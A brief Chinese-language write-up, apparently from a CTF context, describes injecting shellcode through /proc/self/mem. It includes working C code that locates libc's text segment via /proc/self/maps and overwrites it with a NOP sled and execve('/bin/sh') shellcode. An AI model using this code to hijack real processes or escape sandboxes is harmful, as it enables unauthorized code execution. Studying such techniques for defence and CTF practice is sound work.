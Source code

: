 ### 利用`/proc/<pid>/mem`注入shellcode

一种可以看作常见利用手段了，比较通用。

对于一个进程，我们可以通过`/proc/<pid>/mem`访问到内部的内存。于是可以进行修改。

一般做法是， 首先使用open打开对应fd， 然后通过lseek设置fd指向的地址，然后就可以通过read write对对应的内存进行读写操作了。

### exp 

比较简单，先从`/proc/self/maps`中得到libc的text段地址，然后在`/proc/self/mem`中设置fd指向libc的text段，

然后注入大量的nop指令作为滑板，最后写入shellcode，

退出即可，后续过程中python调用到libc的时候，就会落到滑板上，然后一致滑向shellcode。

```c

unsigned char shellcode[0x27a50 + 0x100 + 0x100];
unsigned char sc[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69"
                     "\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

int exp() {
  char buf[0x1000];
  int fd = openat(1, "/proc/self/maps", O_RDONLY);
  FILE *fd_maps = fdopen(fd, "r");

  int mem = openat(1, "/proc/self/mem", O_RDWR);

  unsigned long long addr;
  while (fgets(buf, sizeof(buf), fd_maps)) {
    if (strstr(buf, "r-xp") && strstr(buf, "lib/libc-")) {

      sscanf(buf, "%llx-", &addr);
      printf("%s", buf);
    }
  }
  printf("%llx", addr);

  memset(shellcode, 0x90, 0x27a50 + 0x100);
  memcpy(shellcode + 0x27a50 + 0x100, sc, sizeof(sc));

  lseek(mem, addr, SEEK_SET);
  write(mem, shellcode, sizeof(shellcode));
  return 0;
}

```

